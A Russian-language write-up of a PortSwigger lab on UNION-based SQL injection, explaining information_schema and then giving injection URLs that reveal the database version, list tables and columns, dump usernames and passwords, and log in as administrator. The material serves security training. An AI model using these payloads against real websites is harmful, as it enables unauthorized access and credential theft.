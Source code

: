 # SQL injection attack, listing the database contents on non-Oracle databases

## Theory

<h3>Список содержимого базы данных</h3>

Большинство типов баз данных имеют набор представлений, называемых информационной схемой, которые предоставляют информацию о базе данных.

Мы можете запросить information_schema.tables, чтобы получить список таблиц в базе данных:
```
SELECT * FROM information_schema.tables
```

Это возвращает вывод, подобный следующему:
```
TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  TABLE_TYPE
=====================================================
MyDatabase     dbo           Products    BASE TABLE
MyDatabase     dbo           Users       BASE TABLE
MyDatabase     dbo           Feedback    BASE TABLE
```

Затем мы можем запросить information_schema.columns, чтобы получить список столбцов в отдельных таблицах:
```
SELECT * FROM information_schema.columns WHERE table_name = 'Users'
```
Это возвращает вывод, подобный следующему:
```
TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  COLUMN_NAME  DATA_TYPE
=================================================================
MyDatabase     dbo           Users       UserId       int
MyDatabase     dbo           Users       Username     varchar
MyDatabase     dbo           Users       Password     varchar
```

## Writeup

Главная страница:

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/SQL_injection/SQL_injection_attack_listing_the_database_contents_on_non-Oracle_databases/assets/1.png)

Выбираем пункт Pets. Определяем [количество стобцов](https://github.com/fobblified/Writeups/tree/main/Portswigger/SQL_injection/SQL_injection_UNION_attack_determining_the_number_of_columns_returned_by_the_query) и какой [тип данных](https://github.com/fobblified/Writeups/tree/main/Portswigger/SQL_injection/SQL_injection_UNION_attack_finding_a_column_containing_text) они принимают. Определяем, какая база данных используется, путем подстановки запроса вывода версии базы данных.

```
/filter?category=Pets'UNION+SELECT+version(),NULL--
```

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/SQL_injection/SQL_injection_attack_listing_the_database_contents_on_non-Oracle_databases/assets/2.png)

Выведем таблицы которые есть в базе данных.
```
/filter?category=Pets'UNION+SELECT+table_name,NULL+FROM+information_schema.tables--
```

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/SQL_injection/SQL_injection_attack_listing_the_database_contents_on_non-Oracle_databases/assets/3.png)

Находим нужную таблицу. Достанем столбцы из этой таблицы.
```
/filter?category=Pets'UNION+SELECT+column_name,NULL+FROM+information_schema.columns+WHERE+table_name+%3d+'users_taqwnf'--
```

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/SQL_injection/SQL_injection_attack_listing_the_database_contents_on_non-Oracle_databases/assets/4.png)

Затем достанем данные пользователей из столбца.
```
/filter?category=Pets'UNION+SELECT+username_feadal,password_aoavzn+FROM+users_taqwnf--
```

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/SQL_injection/SQL_injection_attack_listing_the_database_contents_on_non-Oracle_databases/assets/5.png)

Заходим в учетную запись администратора.

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/SQL_injection/SQL_injection_attack_listing_the_database_contents_on_non-Oracle_databases/assets/6.png)
